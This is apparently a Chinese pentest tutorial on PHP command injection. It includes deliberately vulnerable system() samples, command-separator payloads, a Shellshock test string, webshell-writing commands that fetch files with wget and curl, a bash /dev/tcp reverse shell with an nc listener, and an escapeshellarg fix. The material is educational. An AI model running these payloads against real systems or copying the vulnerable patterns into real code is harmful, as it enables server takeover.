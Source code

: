 +++
date = "2016-07-24T14:32:51+08:00"
description = ""
draft = false
tags = ["命令执行"]
title = "命令执行漏洞"
topics = ["Pentest"]

+++

### 0x00 命令执行
> ```
应用有时需要调用一些执行系统命令的函数，如PHP中的system、exec、shell_exec、
passthru、popen、proc_popen等，当用户能控制这些函数中的参数时，就可以将恶意系统命令
拼接到正常命令中，从而造成命令执行攻击，这就是命令执行漏洞。
```

### 0x01 利用条件
1. 应用调用执行系统命令的函数
2. 将用户输入作为系统命令的参数拼接到了命令行中
3. 没有对用户输入进行过滤或过滤不严

### 0x02 漏洞分类
1. 代码层过滤不严  
    商业应用的一些核心代码封装在二进制文件中，在web应用中通过system函数来调用：  
    system("/bin/program \-\-arg $arg");
2. 系统的漏洞造成命令执行  
    bash破壳漏洞(CVE-2014-6271)  
    执行```env x='() { :;}; echo vulnerable' bash -c "echo this is a test"```后  
    若输出vulnerable则证明存在漏洞
3. 调用的第三方组件存在代码执行漏洞  
    如WordPress中用来处理图片的ImageMagick组件  
    JAVA中的命令执行漏洞(struts2/ElasticsearchGroovy等)  
    ThinkPHP命令执行

### 0x03 漏洞危害
1. 继承Web服务程序的权限去执行系统命令或读写文件
2. 反弹shell
3. 控制整个网站甚至控制服务器
4. 进一步内网渗透
5. 等等

### 0x04 漏洞挖掘
> 可以google hacking  
尝试：filetype:action或filetype:do来找struts2

### 0x05 漏洞可能代码(以system为例)
> ```php
1. system("$arg");  //直接输入即可
2. system("/bin/prog $arg");  //直接输入;ls
3. system("/bin/prog -p $arg");  //和2一样
4. system("/bin/prog --p=\"$arg\"");  //可以输入";ls;"
5. system("/bin/prog --p='$arg'");  //可以输入';ls;'

在Linux上，上面的;也可以用|、||、&、&&代替
    ;前面的执行完执行后面的(ping -c 1 10.11.11.11;whoami)
    |是管道符，显示后面的执行结果(ping -c 1 10.11.11.11|whoami)
    ||当前面的执行出错时执行后面的(ping -c 1 a.a.a||whoami)
    &会把前面的放在后台执行，然后执行后面的(ping -c 1 10.11.11.11&whoami)
    &&前面的语句为假则直接出错，后面的也不执行(ping -c 1 10.11.11.11&&whoami)

在Windows上，不能用;可以用|、||、&、&&代替
    |直接执行后面的语句(ping -n 1 10.11.11.11|whoami)
    ||前面出错才执行后面的(ping -n 1 a.a.a||whoami)
    &前面执行完执行后面的(ping -n 1 10.11.11.11&whoami)
    &&前面的语句为假则直接出错，后面的也不执行(ping -n 1 10.11.11.11&&whoami)
```

### 0x06 漏洞利用
* 示例一

> ```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("$arg");
    }
?>
```
{{% fluid_img src="/img/post/command_execution1.png" alt="命令执行示例1.png" %}}

* 示例二

> ```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("ping -c 3 $arg");
    }
```
{{% fluid_img src="/img/post/command_execution2.png" alt="命令执行示例2.png" %}}

* 示例三

> ```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("ls -al \"$arg\"");
    }
```
{{% fluid_img src="/img/post/command_execution3.png" alt="命令执行示例3.png" %}}
注：若引号被转义，则可以用<b>\`id\`</b>来执行

* 示例四

> ```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("ls -al '$arg'");
    }
```
{{% fluid_img src="/img/post/command_execution4.png" alt="命令执行示例4.png" %}}

### 0x07 其他
* 动态函数调用  
在cmd.php中的代码如下：

> ```php
<?php
    $fun = $_GET['fun'];
    $par = $_GET['par'];
    $fun($par);
?>

提交http://localhost/cmd.php?fun=system&par=net user，  
最终执行的是system("net user")
```

### 0x08 关于获取webshell
> **要有写权限！**
```
1.得到当前或绝对路径(可以用pwd)
2.写文件:
    用?cmd=echo "<?php phpinfo()?>" > /var/www/html/info.php
    或?cmd=wget -O /var/www/html/info.php http://www.xx.com/phpinfo.txt
    或?cmd=curl http://www.xx.com/phpinfo.txt > /var/www/html/info.php
```

### 0x09 反弹shell
> ```
远程执行nc -vlp 8888
?cmd=bash -i >& /dev/tcp/10.0.0.1/8888 0>&1
```

### 0x0A 漏洞修复
1. 尽量少用执行命令的函数或者直接禁用
2. 参数值尽量使用引号包括
3. 在使用动态函数之前，确保使用的函数是指定的函数之一
4. 在进入执行命令的函数/方法之前，对参数进行过滤，对敏感字符进行转义

> ```php
<?php
    $arg = $_GET['cmd'];
    // $arg = addslashes($arg);
    $arg = escapeshellarg($arg);  //拼接前就处理
    if ($arg) {
        system("ls -al '$arg'");
    }
?>
```